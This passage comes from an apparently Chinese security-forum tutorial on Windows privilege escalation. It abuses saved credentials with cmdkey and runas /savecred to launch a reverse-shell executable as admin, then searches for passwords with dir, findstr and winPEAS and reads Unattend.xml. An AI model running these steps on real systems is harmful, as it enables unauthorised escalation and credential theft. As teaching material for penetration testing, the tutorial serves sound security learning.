```php
cmdkey /list
```

![image-20210707171824833](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-71b4a8fc100bae6951dd332d823eef855fd3edd9.png)

### 4.如果未保存的凭据，则运行以下脚本以刷新凭据：

```php
savecred.bat 
```

### 5.使用保存的凭据作为管理员用户运行任何命令，进行反弹shell 问题

```php
runas /savecred /user:admin C:\Users\user\Desktop\a002.exe
```

配置文件
----

### 前言

某些管理员会在系统上留下包含密码的配置文件

`Unattend.xml`文件就是一个例子

它允许对 Windows 系统进行大部分自动化设置

### 搜索配置文件

递归式搜索当前目录中以`pass`为名的文件，或以`.config`结尾：

```php
dir /s *pass* == *.config
```

递归式搜索当前目录中包含"password"一词的文件，最后也以任何一个`.xml`，`.ini`，`.txt`

```php
findstr /si password *.xml *.ini *.txt
```

### 实操

### 1.使用winPEAS 搜索可能包含凭据的常见文件：

```php
.\winPEASany.exe quiet cmd searchfast filesinfo
```

![image-20210709143123965](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-eb0b2b0ba3849e110d597c5b79a0f48226d62899.png)

### 2. 发现Unattend.xml文件

```php
type C:\Windows\Panther\Unattend.xml
```
